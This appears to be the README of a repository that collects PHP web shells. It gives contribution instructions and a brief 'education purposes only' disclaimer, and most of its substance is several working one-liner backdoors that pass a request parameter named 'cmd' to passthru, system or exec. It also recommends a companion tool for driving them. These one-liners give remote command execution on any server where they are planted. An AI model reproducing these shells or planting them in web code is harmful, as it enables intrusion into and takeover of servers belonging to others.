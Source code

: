 Contributing
============
To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).




php-webshells
=============

Common PHP shells. Do not put these on a publicly-accessible webserver.

These are provided for education purposes only.

Common php webshells. Do not host the file(s) in your server!

++++++++++++++++++++++++++

Though I recommend one-liners like 

<?php echo passthru($_GET['cmd']); ?>

(Not a full fledged webshell, but works fine)

=================================================================

You can try WebHandler for one-liners.

WebHandler.py works for POST and GET requests:

    <?php system($_GET['cmd']); ?>
    <?php passthru($_REQUEST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>

